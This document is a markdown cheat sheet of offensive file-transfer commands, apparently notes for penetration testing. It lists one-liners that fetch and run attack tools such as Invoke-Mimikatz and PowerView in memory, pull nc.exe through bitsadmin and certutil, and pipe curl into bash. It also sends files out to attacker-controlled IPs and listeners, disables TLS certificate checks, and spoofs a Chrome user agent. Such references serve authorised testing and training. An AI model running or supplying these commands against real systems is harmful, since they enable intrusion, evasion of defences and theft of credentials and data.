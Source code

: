 | **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing` | Bypass error in powershell |
| `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}` | Bypass error for SSL/TLS not trusted in powershell |
| `Invoke-FileUpload -Uri http://<ip>:<port>/upload -File C:\Windows\System32\drivers\etc\hosts` | Using python uploadserver (like simplehttpserver) to upload a file from powershell |
| `Invoke-WebRequest -Uri http://<ip>:<port> -Method POST -Body $b64` | Upload a file with PowerShell using nc -lnvp |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` | Download a file using Certutil |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget (adding `wget -q0-` to do fileless download) |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` | Download a file using cURL (adding `| bash` in the end to do fileless download) |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |


| `Invoke-WebRequest -Uri “http://10.10.14.237:9999/file” -OutFile “C:\path"` | Download a file with PowerShell |
| `scp -P 9888 C:\tools\<filename> kali@10.10.15.23:/home/kali/Documents` | Upload a file with Powershell |